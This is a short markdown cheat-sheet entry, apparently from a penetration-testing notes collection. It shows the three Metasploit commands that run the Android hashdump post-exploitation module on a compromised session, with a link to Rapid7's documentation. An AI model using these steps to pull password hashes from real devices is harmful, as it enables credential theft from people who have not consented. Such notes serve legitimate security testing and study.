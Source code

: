 # C2 Frameworks
## Metasploit

```
msf > use post/android/gather/hashdump

set session <session_ID>

run
```

---
## References

- [Rapid7: Metasploit Framework - Gather Hashdump Post Module](https://github.com/rapid7/metasploit-framework/blob/master/documentation/modules/post/android/gather/hashdump.md)